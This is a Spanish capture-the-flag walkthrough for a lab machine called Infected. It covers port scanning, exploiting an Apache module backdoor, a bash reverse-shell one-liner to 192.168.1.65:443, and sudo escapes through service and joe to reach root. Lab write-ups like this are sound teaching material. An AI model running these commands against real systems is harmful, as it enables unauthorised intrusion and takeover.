 ```yaml
---
description: '🔍 Dificultad: Muy Fácil'
---
```


# Infected

### 🔍 **RECONOCIMIENTO**

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 192.168.1.72
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (1109).png" alt=""><figcaption></figcaption></figure>

A continuación, se realiza el comando:

```bash
nmap -p- --open 192.168.1.72 --min-rate 5000 -n
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (1110).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80 -v 192.168.1.72
```

para obtener más información sobre ese puerto específicamente.

<figure><img src="../../.gitbook/assets/image (1112).png" alt=""><figcaption></figcaption></figure>

Revisamos el puerto 80 que es la página por defecto de Apache.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-01-31 220259.png" alt=""><figcaption></figcaption></figure>

Revisamos directorios.

```bash
dirb http://192.168.1.72
```

<figure><img src="../../.gitbook/assets/image (1116).png" alt=""><figcaption></figcaption></figure>

Revisamos el **info.php**.

<figure><img src="../../.gitbook/assets/image (1117).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Revisando más a fondo encontramos que es un **Backdoor**.

<figure><img src="../../.gitbook/assets/image (1118).png" alt=""><figcaption></figcaption></figure>

{% @github-files/github-code-block url="https://github.com/WangYihang/Apache-HTTP-Server-Module-Backdoor/blob/main/exploit.py" %}

Ejecutamos.

```bash
./exploit.py 192.168.1.72 80
```

Lanzamos un RCE.

```bash
bash -c "bash -i >& /dev/tcp/192.168.1.65/443 0>&1"
```

<figure><img src="../../.gitbook/assets/image (1120).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1121).png" alt=""><figcaption></figcaption></figure>

### 🔐 PRIVILEGIOS

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.

<figure><img src="../../.gitbook/assets/image (1119).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://gtfobins.github.io/gtfobins/service/#sudo" %}

```bash
sudo -u laurent /usr/sbin/service ../../bin/sh
```

{% embed url="https://gtfobins.github.io/gtfobins/joe/#sudo" %}

```bash
sudo /usr/bin/joe
^K!/bin/bash
```

<figure><img src="../../.gitbook/assets/image (1122).png" alt=""><figcaption></figcaption></figure>

